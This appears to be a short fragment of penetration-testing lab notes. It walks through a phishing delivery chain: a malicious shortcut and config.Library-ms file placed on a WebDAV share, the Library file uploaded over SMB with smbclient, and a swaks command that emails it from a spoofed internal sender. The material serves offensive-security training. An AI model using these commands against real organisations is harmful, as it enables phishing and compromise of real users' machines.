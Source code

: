#### Copy **automatic_configuration.lnk** and **config.Library-ms** to our WebDAV directory on our Kali machine, then upload the Library file to the SMB share on the HR137 machine
```
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

#### Or you can drag and drop the shortcut icon into the config location n Windows Explorer
![[auto_config and config to webdav.png]]
#### Using swaks to send an email
```Shell
swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.196.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
